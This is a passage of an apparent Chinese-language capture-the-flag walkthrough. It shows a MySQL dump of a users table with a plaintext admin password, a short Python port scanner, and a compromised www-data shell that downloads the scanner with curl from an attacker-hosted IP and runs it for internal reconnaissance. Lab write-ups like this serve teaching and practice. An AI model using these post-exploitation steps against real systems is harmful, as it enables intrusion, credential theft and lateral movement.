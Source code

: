 Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_DashboardDB |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA            |
+----------+-----------------+
2 rows in set (0.00 sec)

```

```
#!/usr/bin/python3
import socket
host = "192.168.100.1"
portList = [21,22,53,80,443,3306,8443,8080]
for port in portList:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 try:
  s.connect((host,port))
  print("Port ", port, " is open")
 except:
  print("Port ", port, " is closed")
```

传到靶机
```
www-data@9b49d5e2bc5e:/tmp$ curl http://10.50.111.108/scan.py -o scan.py
curl http://10.50.111.108/scan.py -o scan.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   289  100   289    0     0    642      0 --:--:-- --:--:-- --:--:--   642
www-data@9b49d5e2bc5e:/tmp$ python3 scan.py
python3 scan.py
Port  21  is closed
Port  22  is open
Port  53  is closed
Port  80  is open
Port  443  is closed
Port  3306  is open
Port  8443  is closed
Port  8080  is open
